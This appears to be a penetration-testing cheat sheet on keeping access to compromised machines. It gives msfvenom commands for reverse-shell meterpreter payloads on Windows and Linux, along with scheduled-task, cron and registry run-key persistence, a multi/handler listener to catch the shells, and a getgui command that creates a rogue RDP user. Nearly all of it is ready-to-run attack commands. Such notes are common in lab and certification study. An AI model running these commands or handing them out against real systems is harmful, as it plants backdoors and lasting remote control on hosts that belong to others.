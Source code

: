 The following are methods of persistence in order from more reliable to least reliable

NOTE: These examples use a meterpreter multi/handler. You can also generate other payloads (see msfvenom notes) and use other listeners, in case you want to use `nc`

#### Scheduled Task
Windows
```bash
# Create payload and transfer over
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<listen_ip> LPORT=<port> -f exe -o payload.exe 

# Create Scheduled Task
schtasks /create /tn <name> /tr C:\payload.exe /sc minute /mo 1 (/ru <user(SYSTEM)>)

# Verify
schtasks /query

# Catch with meterpreter listener
msfconsole
use exploit/multi/handler
set LHOST tun0
set LPORT <port>
set PAYLOAD windows/meterpreter/reverse_tcp
run
```

Linux
```bash
# Create payload (msfvenom) and transfer over
msfvenom -p linux/meterpreter/reverse_tcp LHOST=<listen_ip> LPORT=<port> -f elf -o payload

# Create cronjob
chmod +x payload
crontab -e 
*/1 * * * * /path/to/<payload>

# Verify
crontab -l

# Catch with meterpreter listener
msfconsole
use exploit/multi/handler
set LHOST tun0
set LPORT <port>
set PAYLOAD linux/meterpreter/reverse_tcp
run
```

#### Registry Run Key
```bash
Meterpreter> run persistence –X –i <int> –r <ip> –p <port>
# Help: run persistence –h
# -X: Start on boot
# -i: Beacon interval (seconds)
# -r: Local IP 
# -p: Local port

Set up multi/handler
Requires reboot
Catch shell
```

#### Rogue User
```bash
Meterpreter> run getgui –e –u <username> –p <password>
# Help: run getgui -h
# -e: enable Remote Desktop on target system
# -u: username to be created
# -p: password that user will have

Authenticate via RDP
```